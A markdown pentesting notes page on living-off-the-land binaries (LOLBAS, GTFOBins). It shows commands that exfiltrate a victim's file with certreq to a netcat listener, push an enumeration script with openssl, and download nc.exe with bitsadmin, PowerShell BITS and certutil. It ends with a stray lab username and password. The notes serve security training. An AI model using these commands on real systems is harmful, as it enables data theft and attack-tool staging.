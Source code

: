 ```yaml
---
title: LOLbins - Living off the land binaries - LOLbas and GTFObins
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - resources
  - binaries
  - pentesting
---
```


# LOLbins - "Living off the land" binaries: LOLbas and GTFObins

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)



## Windows - LOLBAS

### CertReq.exe 

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

```bash
# From the victim's machine we can sec for instance file.txt to our kali
certreq.exe -Post -config http://$ipKali c:\folder\file.txt

# From the kali machine, the attacking one, we use a netcat session
sudo nc -lvnp 80
```


## Linux - GTFOBins

### OpenSSL

```bash
# Create Certificate in our attacker machine
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up the Server in our attacker machine
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

# Download File to the victim's Machine, but run command from the attacker kali
openssl s_client -connect $ipVictim:80 -quiet > LinEnum.sh
```


## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

```powershell
# File Download with Bitsadmin
bitsadmin /transfer wcb /priority foreground http://$ip:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

```powershell
# Download
Import-Module bitstransfer; Start-BitsTransfer -Source "http://$ip/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Download a File with Certutil

Certutil can be used to download arbitrary files.

```cmd
certutil.exe -verifyctl -split -f http://$ip/nc.exe
```


P ((Username: htb-student | Password:
HTB_@cademy_stdnt!
)
) and use